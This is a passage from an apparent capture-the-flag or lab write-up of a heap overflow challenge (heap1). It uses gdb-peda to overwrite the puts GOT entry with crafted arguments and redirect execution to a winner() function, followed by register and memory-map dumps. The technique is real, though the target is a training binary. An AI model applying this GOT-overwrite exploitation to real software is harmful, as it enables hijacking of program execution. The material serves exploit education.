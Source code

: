     gdb-peda$ disassemble 0x80483d0
    Dump of assembler code for function puts@plt:
       0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049844
       0x080483d6 <+6>:     push   0x20
       0x080483db <+11>:    jmp    0x8048380
    End of assembler dump.

Bingo `DWORD PTR ds:0x8049844`, is the address of the `puts` GOT table entry. Replacing the 'FFFF' characters with the `puts` GOT table address `0x8049844`:

    gdb-peda$ r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x44\x98\x04\x08"`" 000011112222333344445555
    Stopped reason: SIGSEGV
    0x30303030 in ?? ()


`0x30303030` happens to be the ASCII code for the `0` (zero) character, which are the first 4 bytes of the second input argument. The segfault `0x30303030 in ?? ()` highlights that the `puts` call, got rewired (its GOT entry) to invoke instruction `0x30303030`. Dumping the `EIP` confirms this:

    gdb-peda$ info registers
    eax            0x8049844        0x8049844
    ecx            0x0      0x0
    edx            0x19     0x19
    ebx            0xb7fd5ff4       0xb7fd5ff4
    esp            0xbffffc3c       0xbffffc3c
    ebp            0xbffffc68       0xbffffc68
    esi            0x0      0x0
    edi            0x0      0x0
    eip            0x30303030       0x30303030

Placing the address of the desired instruction to be executed is now trivial, for example the `winner()` function:

    gdb-peda$ x winner
    0x80484ec <winner>:      "U\211\345\203\354\030\307\004$"

Now to write the address of `winner()` into the EIP:

    gdb-peda$ r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x44\x98\x04\x08"`" "`/bin/echo -ne "\xec\x84\x04\x08"`"
    and we have a winner @ 1570881614

To gain a better intuition about what is going here. Set breakpoints after each `malloc` call. The first break is hit:

    Breakpoint 1, 0x08048525 in main (argc=0x3, argv=0xbffffd24) at main.c:21
    21        i1 = malloc(sizeof(struct internet));

To visualise the heap segment further, need its segment address:

    gdb-peda$ info proc mappings
    process 2813
    Mapped address spaces:
    
            Start Addr   End Addr       Size     Offset objfile
             0x8048000  0x8049000     0x1000          0      /root/code/heap1/heap1
             0x8049000  0x804a000     0x1000          0      /root/code/heap1/heap1
             0x804a000  0x806b000    0x21000          0           [heap]
            0xb7e76000 0xb7e77000     0x1000          0
            0xb7e77000 0xb7fd3000   0x15c000          0      /lib/i386-linux-gnu/i686/cmov/libc-2.13.so
